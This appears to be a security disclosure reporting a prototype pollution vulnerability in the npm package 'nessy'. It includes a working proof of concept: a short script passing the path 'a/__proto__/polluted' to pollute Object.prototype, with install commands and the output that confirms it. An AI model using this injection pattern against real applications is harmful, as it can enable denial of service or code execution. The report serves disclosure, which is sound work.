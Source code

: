 # Description

`nessy` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var nessy = require("nessy")
var obj = {}
console.log("Before : " + {}.polluted);
nessy('a/__proto__/polluted', "Yes! Its Polluted", '/', obj);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i nessy # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
